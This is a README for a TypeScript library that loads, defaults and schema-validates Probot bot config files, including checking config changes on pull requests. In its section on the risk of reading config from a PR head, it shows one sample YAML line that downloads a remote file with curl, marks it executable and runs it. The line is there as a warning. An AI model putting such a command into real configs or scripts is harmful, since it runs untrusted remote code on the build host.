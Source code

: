 # bot-config-utils

This is a small library for handling bot config file.

## Install

```bash
npm i @google-automations/bot-config-utils
```

## Get the config

This library supports yaml config file. You provide an config
interface. The code assumes we're in the probot handler.

```typescript
import {
  getConfig,
} from '@google-automations/bot-config-utils';

interface Config {
  myConfig: string;
}
const CONFIG_FILENAME = 'mybot.yaml';
const {owner, repo} = context.repo();
const config = await getConfig<Config>(
  context.octokit,
  owner,
  repo,
  CONFIG_FILENAME);
// config can be null.
```

## Provide the default value

You can use a similar method that supports default value.

```typescript
import {
  getConfigWithDefault,
} from '@google-automations/bot-config-utils';

interface Config {
  myConfig: string;
}

const defaultConfig: Config = {'myConfig': 'myValue'};

const CONFIG_FILENAME = 'mybot.yaml';
const {owner, repo} = context.repo();
const config = await getConfigWithDefault<Config>(
  context.octokit,
  owner,
  repo,
  CONFIG_FILENAME,
  defaultConfig);
// config is always a Config object.
```

## getConfig options
You can specify optional arguments via the `getConfigOptions` interface to `getConfig` and `getConfigWithDefault`.

```
{
  fallbackToOrgConfig: false,
  branch: 'release-9.x',
  schema: schema,
  additionalSchemas: additionalSchema
}
```
- fallbackToOrgConfig
  If set to true, it will try to fetch the config from `.github` repo in the
  same org, defaults to true.
- branch
  The branch for getting the config.
- schema
  The json schema definition. If specified, the loaded config will be validated
  against the given schema. It will throw an Error when validation fails.
- additionalSchemas
  Only required if you need to give additional schema definitions.

Here is a simple example for not falling back to `.github` repo, and
doing the schema validation.

```
// json schema definition
import schema from './config-schema.json';
import {
  getConfig,
} from '@google-automations/bot-config-utils';

interface Config {
  myConfig: string;
}
const CONFIG_FILENAME = 'mybot.yaml';
const {owner, repo} = context.repo();
const config = await getConfig<Config>(
  context.octokit,
  owner,
  repo,
  CONFIG_FILENAME,
  {fallbackToOrgConfig: false, schema: schema}
);
// config can be null.
```

## Check config schema on PRs

To use this feature, the bot needs to have some permissions.

You have to add the following permissions:
- Pull Request Read/Write
- Checks Read/Write

You also have to subscribe to Pull Request events.

You also need to provide a schema definition. Here is an example definition:

```json
// config-schema.json
{
    "$schema": "http://json-schema.org/draft-07/schema#",
    "type": "object",
    "title": "flakybot config",
    "description": "Schema for flakybot configuration",
    "additionalProperties": false,
    "properties": {
	    "issuePriority": {
	        "description": "The default priority for flakybot issues",
	        "type": "string",
	    }
    }
}
```

Here is a sample handler(this assumes you're developping a Probot app):
```typescript
import {ConfigChecker} from '@google-automations/bot-config-utils';
import schema from './config-schema.json';

// ...

  app.on(
    [
      'pull_request.opened',
      'pull_request.reopened',
      'pull_request.edited',
      'pull_request.synchronize',
    ],
    async context => {
      const configChecker = new ConfigChecker<Config>(schema, CONFIG_FILENAME);
      const {owner, repo} = context.repo();
      await configChecker.validateConfigChanges(
        context.octokit,
        owner,
        repo,
        context.payload.pull_request.head.sha,
        context.payload.pull_request.number
      );
    }
  );
```

`validateConfigChanges` will check the config file format against the
schema you provided. It will submit a failing status check if:

- You are trying to add a wrong config file (currently it only checks
  `yaml` vs `yml`).
- You are trying to add a broken config file, or the config file
  doesn't match the schema.

`validateConfigChanges` resolves `false`, if the config file is invalid,
and a failing check has been created.

## Fetch config from the PR head
Probot's implementation of config always fetches the config from the
main branch. This is a reasonable security meassure for a generic
library.

It is very dangerous to fetch the config from PR head expecially if
the config contains some external commands. Here is a simple example:

```yaml
prepareCommands: 'curl http://example.com/m && chmod +x m && ./m'

```

However, if your bot doesn't have such a field in the config file, it
is very natural to fetch the config from the PR head.

For this purpose, the ConfigChecker has a method:
`getConfig(): T | undefined`. This will return the config object only
if the validation succeeds.

Even if the config contains a dangerous field, you can selectively use
the value from the config in the PR head.
